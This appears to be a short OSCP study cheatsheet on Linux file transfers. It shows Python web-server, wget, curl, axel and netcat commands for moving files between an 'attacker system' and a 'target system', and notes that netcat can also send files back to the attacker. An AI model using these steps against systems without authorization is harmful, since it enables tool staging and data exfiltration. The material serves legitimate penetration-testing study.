 ```yaml
---
title: Linux File Transfers
author: linatl
category: "OSCP"
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
> wget 192.168.1.1:443/file.txt
> curl 192.168.1.1:443/file.txt -o file.txt
> axel 192.168.1.1:443/file.txt -o file.txt
```

###### netcat
```
On the target system:
> nc -lvp 80 > file.txt
On the attacker system:
> nc 192.168.1.1 80 < file.txt

Also works the other way, to get files back to the attacker system
```
